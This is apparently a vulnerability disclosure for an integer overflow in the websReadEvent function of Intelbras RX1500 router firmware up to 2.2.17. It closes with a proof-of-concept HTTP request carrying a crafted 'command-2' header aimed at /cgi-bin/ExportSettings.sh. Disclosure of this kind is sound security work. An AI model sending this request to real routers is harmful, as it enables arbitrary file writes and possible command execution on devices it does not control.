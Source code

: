 #Intelbras  Vulnerability



Vendor:Intelbras  

Product:RX1500

https://www.intelbras.com/en

Version:

RX1500(<=2.2.17)

Vulnerability Type:

Integer Overflow

Attack Type:

Remote



## Vulnerability description

 Intelbras RX1500 Router <=2.2.17 is vulnerable to Integer Overflow. The websReadEvent function incorrectly uses the int type when processing the "command" field of the http header, causing the array to cross the boundary and overwrite other fields in the array,which can cause arbitrary file writing and, in severe cases, arbitrary command execution.

![](D:\doc\iot\cve\Intelbras\vul01\01.png)

Like the following http request

```
> POST /cgi-bin/ExportSettings.sh HTTP/1.1
> Host:
> Connection: close
> command-2:///////////////////////////////////////////web_mtn/date
>
> 111
```

